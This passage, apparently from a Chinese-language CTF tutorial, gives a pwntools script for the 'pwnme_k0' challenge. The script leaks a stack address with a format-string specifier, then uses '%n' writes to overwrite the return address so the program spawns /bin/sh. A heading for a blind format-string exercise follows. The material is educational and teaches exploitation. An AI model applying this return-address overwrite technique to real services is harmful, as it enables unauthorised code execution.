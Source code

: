 ```python
    exp_file.sendline(password)
    exp_file.recvuntil("1.Sh0w Account Infomation!")


def main():
    debug = 0
    if debug:
        exp_file = process("./pwnme_k0")
        # context.log_level="debug"
    else:
        exp_file = remote("127.0.0.1", 10000)

    # Leak the address above the stack and get the address in the stack where the return address.
    set_info(exp_file, "a"*8, "%6$p")
    show_info(exp_file)
    recv_value = exp_file.recvuntil("1.Sh0w Account Infomation!").split("\n")[1]
    ret_addr = int(recv_value, 16) + 0x8
    log.info("ret_addr:{ret_addr}".format(ret_addr=hex(ret_addr)))

    # Change the return address to system("/bin/sh")
    exp_file.recvuntil(">")
    exp_file.sendline("2")
    set_info(exp_file, p64(ret_addr), "%166c"+"%8$n")
    show_info(exp_file)

    exp_file.recvuntil(">")
    exp_file.sendline("2")
    set_info(exp_file, p64(ret_addr+1), "%8c"+"%8$n")
    show_info(exp_file)

    exp_file.recvuntil(">")
    exp_file.sendline("2")
    set_info(exp_file, p64(ret_addr+2), "%64c"+"%8$n")
    show_info(exp_file)

    # Trigger the function return
    exp_file.recvuntil(">")
    exp_file.sendline("3")

    exp_file.interactive()


if __name__ == '__main__':
    main()
```



## 0x25 blind && 格式化字符串盲打

这是一道没有给出 `elf` 文件也没有给出 `libc` 的题目。

